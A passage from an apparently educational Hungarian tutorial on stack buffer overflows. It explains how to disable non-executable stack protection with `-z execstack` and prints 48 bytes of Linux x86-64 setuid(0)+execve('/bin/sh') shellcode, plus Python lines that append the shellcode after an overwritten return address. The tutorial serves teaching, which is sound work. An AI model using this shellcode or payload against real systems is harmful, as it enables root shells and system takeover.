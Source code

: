 Ha mindent jól csináltunk, akkor természetesen ebben az esetben is le fog futni a `win()` függvény.

## Kód a stack-en

A fenti módszerrel a kód már létező részeire tudunk ugrani, ha tudjuk azok címét. Ez sok esetben már
éppen elég nagy sebezhetőség, de tetszőleges kód futtatására is lehetőségünk van, ha azt
előzőleg a stack-en helyezzük el. Erre a fordító és a rendszer (együtt) ad egy beépített védelmet:
A stack-en levó kód végrehajtása le van tiltve. Természetesen ez csak akkor működik, ha a
processzor támogatja ezt (így például egy egyszerű 8 bites beágyazott rendszer esetében nem).

A védelem kiiktatása az adott kód fordítása közben a `-z execstack` fordítási opcióval lehetséges.

A következő kérdés az, hogy egyáltalán milyen kódot érdemes futtatni. A támadó (akinek most a
szerepében vagyunk) célja általános esetben egy shell indítása, lehetőleg privilegizált jogokkal,
de elképzelhetőek más lehetéges támadások is (például a tűzfal, vagy az illető számítógép lekapcsolása).
Ezekre láthatunk jónéhány példát ezen az oldalon:
(https://shell-storm.org/shellcode/index.html)[https://shell-storm.org/shellcode/index.html].

Innen a `Linux/x86-64 - setuid(0) + execve(/bin/sh)` nevű pont jó lesz a shell indításához. Ennek bináris kódja
egy kicsit átformázva:

```
4831ffb0
690f0548
31d248bb
ff2f6269
6e2f7368
48c1eb08
534889e7
4831c050
574889e6
b03b0f05
6a015f6a
3c580f05
```

Az ilyen típusú bináris programrészlet neve shell-kód.

A shell-kód elhelyezése vagy a visszatérési cím előtt, vagy után lehetséges. Ez a 48 bájt a pufferterületre nem
fér be, így csak a visszatérési cím után tudjuk elhelyezni. Így a visszatérési címet generáló kódrészlet után a következőt
kell beszúrni:

```python
sys.stdout.buffer.write(bytes.fromhex('4831ffb0'))
sys.stdout.buffer.write(bytes.fromhex('690f0548'))
sys.stdout.buffer.write(bytes.fromhex('31d248bb'))
sys.stdout.buffer.write(bytes.fromhex('ff2f6269'))
sys.stdout.buffer.write(bytes.fromhex('6e2f7368'))
sys.stdout.buffer.write(bytes.fromhex('48c1eb08'))
sys.stdout.buffer.write(bytes.fromhex('534889e7'))
sys.stdout.buffer.write(bytes.fromhex('4831c050'))
sys.stdout.buffer.write(bytes.fromhex('574889e6'))
sys.stdout.buffer.write(bytes.fromhex('b03b0f05'))
sys.stdout.buffer.write(bytes.fromhex('6a015f6a'))
sys.stdout.buffer.write(bytes.fromhex('3c580f05'))

```
